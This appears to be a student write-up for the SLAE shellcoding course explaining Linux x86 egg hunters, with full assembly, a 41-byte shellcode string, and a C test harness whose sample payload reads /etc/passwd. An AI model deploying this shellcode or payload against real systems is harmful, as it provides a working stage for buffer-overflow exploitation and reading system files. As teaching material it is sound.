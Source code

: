 # Project 3: Egg hunter

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads




# What is an egg hunter?

A really good blog post by a previous student [H0mbre](https://h0mbre.github.io/SLAE_Egg_Hunter/) does a really great job consolidating information on egg hunters. Of note, he mentions [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which defines a few techniques for writing an egg hunter. When searching egg hunters online, you will see a lot of examples using the [access()](https://man7.org/linux/man-pages/man2/access.2.html) method check for validating linux pages of memory that are readable such as [this one](https://rastating.github.io/creating-an-egg-hunter/) by rastating and another on [infosecwriteups](https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225) by bigb0ss. Conversely, only a few egg hunters using the `sigcheck()` method to check for valid memory without receiving SIGSEGV signal. That said, I did find one example of it's use by [mmquant](https://mmquant.net/egg-hunters-on-linux/#egghunter_example_sigaction). I mention this to point out a few techniques for finding eggs without throwing exceptions from trying to read memory in inaccessable addresses.

In short, an egg hunter is a two stage payload when you have limited buffer space for your overflow. If you can insert the main payload somewhere in memory, you can use a small egg hunter to search for that main payload and execute it. For more specific details, please refer to the links above. 

For this assignment I will walk through the `access()` egg hunter methodology. I will use the egg `"cd0e" or 0x65643063 (little endian)` as it seems [epi](https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/#mona-py-egg) has found it to work better than some other eggs such as `"W00T"` and it's a bit funner than random characters.


# Egg Hunter Assembly 

After playing with H0mbre's code as a means of learning, I wanted to change the assembly a bit so it's not a copy paste. That said, the assembly is pretty much the basic method of doing an `access()` egg hunter. I also didn't want to insert a bunch of junk statements just to make the assembly different. Thus, I only made a couple changes.

The first change was to replace the `mov ebx, <egg>` with `mov esi, <egg>`. Thus, I now store my egg in the `esi` regsiter instead of `ebx`. Because of this, I was able to remove the `pushad` and `popad` instructions as a means of saving registers since my egg was not constantly overwritten with the first argument of the access() call. 

Now that the `pushad/popad` instructions are removed, the only register that keeps getting overwritten is `eax` which holds the return value of the access() call. Usuall 0xfffffff2 or 0xfffffffb. To remedy this, I changed the `mov al, 0x21` to a `push 0x21; pop eax`. This will not add null bytes to my assembly and will effectively reset the eax register with the proper value. 

These changes result in a shellcode that is 1 byte less than the original. 

However, this shellcode did not work. After some debugging, the rather obvious answer appeared. The shellcode eventually jumps to the address in `edx` which holds our egg. What I need to do is jump past the egg to the actual instructions to execute. To do this, a simple `add edx, 0x8` is inserted right before `jmp edx` and the shellcode executes flawlessly. 

Since I want the egg to be `c0d3`, I make the egg stored in register `esi` set to `0x33643063` (3d0c)... which is `c0d3 | 0x63306433` in little endian.

The final assembly is as follows:

```assembly
global _start

section .text
_start:
    mov esi, 0x33643063	; egg ("c0d3"), backwards in little endian = "3d0c" = 0x33643063
    xor ecx, ecx		
    mul ecx             ; set eax and edx to 0

page_forward:		    ; here, we're going to design a function of what to do if we get an EFAULT error
    or dx, 0xfff		; doing a bitwise logical OR against the $dx value
                        ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

address_check:		    ; here we're going to design a function to check the next 8 bytes of mem
    inc edx			    ; gets $edx to a nice multiple of 4096
    lea ebx, [edx+4]	; load [edx+4] to check if this fresh page is readable by us
    push 0x21		; access()
    pop eax
    int 0x80

    cmp al, 0xf2		; does the low-end of $eax equal 0xf2? did we get an EFAULT? 
    jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

    cmp [edx], esi		; is what is stored at the address of $edx our egg (0x65643063) ?
    jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg
    
    cmp [edx+4], esi	; we found our egg once, let's see if it's also in $edx + 4
    jnz address_check	; we found it once but not twice, have to keep looking
    
    add edx, 0x8        ; jump past our egg to our actual shellcode
    jmp edx			    ; we found it twice! go to edx (where our egg is) +8 and execute the code there! 
```


Shellcode (Length: 41 bytes):

```c
"\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2"
```

# Testing

To test, the shellcode can be executed with dynamic payloads using this egg_hunter_test.c program:

```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char code[] = "\x63\x30\x64\x33\x63\x30\x64\x33\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80";
	

int main(){
    printf("Hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(code));


    int r =  mprotect((void *)((int)hunter & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
    printf("mprotect: %d\n",r);
    int (*ret)() = (int(*)())hunter;
    return ret();
    // return 1;
}
```

Of note is that the `code` variable can be any payload you want, just ensure it is prepended with the egg twice `\x63\x30\x64\x33\x63\x30\x64\x33` (c0d3c0d3).

Compile and run using 

```bash
gcc -fno-stack-protector -z execstack -m32 egg_hunter_test.c -o egg_hunter 
./egg_hunter
```


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

